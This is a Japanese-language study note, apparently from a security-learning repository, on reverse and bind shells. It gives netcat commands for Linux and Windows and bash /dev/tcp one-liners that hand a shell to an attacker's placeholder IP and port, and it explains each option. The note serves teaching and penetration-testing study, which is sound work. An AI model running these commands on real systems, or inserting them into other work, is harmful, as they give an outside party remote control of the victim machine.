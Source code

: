 # **リバースシェル**

サーバーからコネクションを張って攻撃者がサーバーを操作できるようにする攻撃手法

![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/reverseshell.png)

## netcat

* バインドシェル:接続してきた人に自端末の操作を渡す

    ```bash
    nc -v -l -p 1027 -e /bin/bash
    ```
    
    * [参考サイト](https://docs.oracle.com/cd/E56342_01/html/E54074/netcat-1.html)

        * -vオプション：詳細出力を指定
        * -lオプション：リモートホストへの接続を開始せずに、着信する接続を待機
        * -pオプション：-lオプションと一緒に使った場合待機ポートの指定となる
        * -eオプション：-e programで利用。接続の受け入れまたは実行後に外部プログラムを実行する

    * バインドシェルはfirewallではじかれることが多い。

    
![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/reverseshell_netcat.png)


* リバースシェル

    * 攻撃端末で実行するコマンド

        ```bash
        nc -v -l -p <待ち受けポート番号>
        ```

    * 被害端末で実行するコマンド

        ```bash
        nc -v <攻撃端末IP> <攻撃端末ポート> -e /bin/bash
        ```

    * 被害者端末で実行するコマンド(windowsの場合)

        ```windows
        nc.exe -v [攻撃者のPCのIPアドレス] [攻撃者のPCの待ち受けポート番号] -e cmd.exe
        ```



## bash

* リバースシェル

    * 被害端末で実行するコマンド

        ```bash
        bash –i >& /dev/tcp/[IPアドレス]/[ポート番号] 0>&1
        ```
        * [参考サイト](http://linux-cmd.com/bash.html)
        * -iオプション：-iオプションが指定されると、bashは対話的(interactive)に動作する
        * \>&：">& hoge.txt"は"> hoge.txt 2>&1"と同じ意味
            * [参考サイト](https://hogem.hatenablog.com/entry/20141008/1412778085)
        * 上記のコマンドで標準出力、標準入力、標準エラー出力すべてを/dev/tcp/に渡している
        * /dev/tcp/：man bashに以下記載があるらしい。

            ```bash
            /dev/tcp/host/port
            host が有効なホスト名またはインターネットアドレスで port が整数のポート番号ならば、bash は対応するソケットに対して TCP 接続のオープンを試みます。

            /dev/udp/host/port
            host が有効なホスト名またはインターネットアドレスで port が整数のポート番号ならば、bash は対応するソケットに対して UDP 接続のオープンを試みます。
            ```
        * 前提条件として、攻撃端末が'nc -l 2222'などのコマンドでポートを開いて待っている必要がある。

    * 被害端末で標準シェルがbashではない場合を考慮したコマンド

        ```bash
        bash -c 'bash -i >& /dev/tcp/[IPアドレス]/[ポート番号] 0>&1'
        ```

        

